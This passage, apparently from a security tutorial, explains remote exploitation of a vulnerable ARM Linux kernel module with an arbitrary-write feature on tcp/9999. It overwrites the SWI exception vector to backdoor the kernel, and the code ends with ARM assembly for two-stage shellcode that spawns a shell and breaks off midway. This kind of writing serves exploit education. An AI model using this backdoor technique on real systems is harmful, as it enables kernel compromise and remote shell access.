 Just like the previous example, this module has an awesome feature that allows you to write data to anywhere you want. Connect on port tcp/9999 and just give it an address, followed by the size of the data and the actual data to write there. In this case we will also backdoor the kernel by overwriting the SWI exception vector and backdooring the kernel. The code will branch to our shellcode which we will also, as in the previous example, store at *0xffff020*. Overwriting the SWI vector is especially a good idea in this remote scenario because it will allow us to switch from interrupt context to process context. So our backdoor will be executing in a context with a backing process and we will be able to "hijack" this process and overwrite its code segment with a bind shell or connect back shell. But let's not do it that way. Let's check something real quick:  
![cat /proc/self/maps](/images/corrupting_arm_evt/proc_self_maps.png)  
Would you look at that, on top of everything else, the EVT is a shared memory segment. It is executable from user land and writeable from kernel land\*. Instead of overwriting the code segment of a process that is making a system call, let's just store our code in the EVT right after our first stage and just return there.
Every system call goes through the SWI vector so we won't have to wait too much for a process to get caught in our trap.

### The Exploit
Our exploit goes:  
    1. Store our first stage and second stage shellcodes at *0xffff0020* (one after the other).  
    2. Overwrite the SWI exception vector with a branch to *0xffff0020*.  
    3. When a system call occurs, our first stage shellcode will set the link register to the address of our second stage shellcode (which is also stored in the EVT and which will be executed from userland), and then return to userland.  
    4. The calling process will "resume execution" at the address of our second stage which is just a bind shell.  

Here is the stage 1-2 shellcode:

```nasm
stage_1:
    adr     lr, stage_2
    push    {lr}
    stmfd   sp!, {r0-r12}
    ldr     r0, =0xe59ff410     @ intial value at 0xffff0008 which is
                                @ ldr     pc, [pc, #1040] ; 0xffff0420
    ldr     r1, =0xffff0008
    str     r0, [r1]
    ldmfd   sp!, {r0-r12, pc}^  @ return to userland

stage_2:
    ldr     r0, =0x6e69622f     @ /bin
    ldr     r1, =0x68732f2f     @ /sh
    eor     r2, r2, r2          @ 0x00000000
    push    {r0, r1, r2}
    mov     r0, sp

    ldr     r4, =0x0000632d     @ -c\x00\x00
    push    {r4}
```